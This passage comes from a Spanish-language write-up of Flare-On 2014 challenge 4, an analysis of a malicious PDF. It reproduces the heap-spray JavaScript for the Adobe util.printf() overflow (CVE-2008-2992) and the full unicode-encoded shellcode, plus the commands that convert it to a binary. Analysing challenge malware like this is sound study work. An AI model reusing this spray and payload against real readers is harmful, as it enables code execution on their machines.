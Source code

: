 ``` javascript
substr4 = output2.substring(0, output2.length-offset2);
while(substr4.length+offset2 < 0x40000) substr4 = substr4+substr4+substr3;
array2 = new Array();
for (i=0;i<125;i++) array2[i] = substr4 + output2;
```

El código se comprende un poco mejor, pero lo que tenemos es básicamente padding para el payload. Con esta información, investigando un poco tenemos que se trata de un exploit de una función llamada util.printf() que desencadena un buffer overflow, CVE-2008-2992, lo cual nos permite ejecutar código a nivel de user space. Para mas referencia, podemos visitar el siguiente [enlace](https://resources.infosecinstitute.com/hacking-pdf-part-1/).

Convirtamos ahora el unicode 16 a un archivo binario:

``` text
xbytemx@laptop:~/flare-on2014/challenge04$ echo "%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff" | sed 's/\%u//g' | xxd -r -p | dd conv=swab of=shellcode.bin
```

Rápidamente imprimimos el código unicode16, sustituimos la parte que dice que es unicode y le indicamos a xxd que haga la conversión de hexa a binario en una sola linea. Finalmente uso DD para cambiar el endianess y salvar el binario.


  [c2c76e1c]: http://www.flare-on.com/files/2014_FLAREOn_Challenges.zip "Flare-On 2014"
  [peepdf]: https://github.com/jesparza/peepdf "PeePDF"